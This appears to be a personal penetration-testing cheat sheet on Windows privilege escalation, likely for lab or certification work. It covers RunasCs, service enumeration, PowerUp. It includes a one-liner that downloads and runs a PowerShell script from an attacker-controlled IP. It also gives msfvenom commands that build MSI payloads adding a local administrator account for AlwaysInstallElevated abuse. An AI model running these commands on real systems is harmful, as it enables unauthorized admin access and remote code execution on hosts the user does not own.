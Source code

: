 ## RunasCs.exe
Windows script to run specific processes under a different user account
```powershell
PS > .\RunasCs.exe $Username $Password $Command
```
Command can be like `msfvenom reverse shell`
# Processes
Check running processes, could hint at possible VM machine, prompting [[VM Escape]].
# Services
Check all services with `sc.exe`
```cmd
sc.exe query state=all
```
# PowerUp.ps1
```powershell
PS > iex (iwr -usebasicparsing http://<IP>:<PORT>/PowerUp.ps1)
PS > Invoke-AllChecks
```
## Outputs
- #AlwaysInstallElevated 
	Use [[Tools/Frameworks/Metasploit#Generate Payload]] to create `.msi` reverse-shell and send it with [[File Transfer]]
```shell-session
$ msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
$ msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi #Using the msiexec the uac wont be prompted
```